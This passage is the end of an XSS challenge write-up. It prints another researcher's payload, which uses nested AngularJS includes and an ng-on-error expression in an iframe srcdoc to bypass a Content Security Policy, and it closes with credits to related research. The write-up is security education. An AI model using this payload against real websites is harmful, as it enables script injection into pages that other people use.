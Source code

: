 ``` html
    }
  </script>

</body>
</html>
```

I came up with this solution after the challenge started, and it shows how a sub-domain XSS can be abused to affect other sub-domain.

## Another bypass with AngularJS only

[@kinugawamasato](https://twitter.com/kinugawamasato/status/1565146690470162432) found another very coll way for the CSP bypass without any other library, here is the payload:

```
https://www.youtube.com/embed/srcdoc=
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
  <script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
  </script>
  <img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
></iframe>.jpg
```

It uses nested AngularJS expression to bypass `on` keyword, and also use `$event.target.ownerDocument.defaultView` to access window, brilliant!

## Credits

Bruno and I designed, created and implemented the challenge together. However, we still standing on the shoulders of giants. We learned a lot from other brilliant people and try to integrated some of their idea to our challenge.

Kudos to [@Psych0tr1a](https://twitter.com/Psych0tr1a) for his nested parser XSS research: [Fuzzing for XSS via nested parsers condition](https://swarm.ptsecurity.com/fuzzing-for-xss-via-nested-parsers-condition/)

Kudos to [@Strellic_](https://twitter.com/Strellic_) for his idea of chaining DOM clobbering and prototype pollution and share the writeup: [UNI CTF 2021: A Complex Web Exploit Chain & a 0day to Bypass an Impossible CSP](https://www.hackthebox.com/blog/UNI-CTF-21-complex-web-exploit-chain-0day-bypass-impossible-CSP)

Kudos to [@tehjh](https://twitter.com/tehjh) for his amazing [CSP bypass via Angular](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22#191-bytes)

We hope you like the challenge and learn a lot of new things, see you next time!
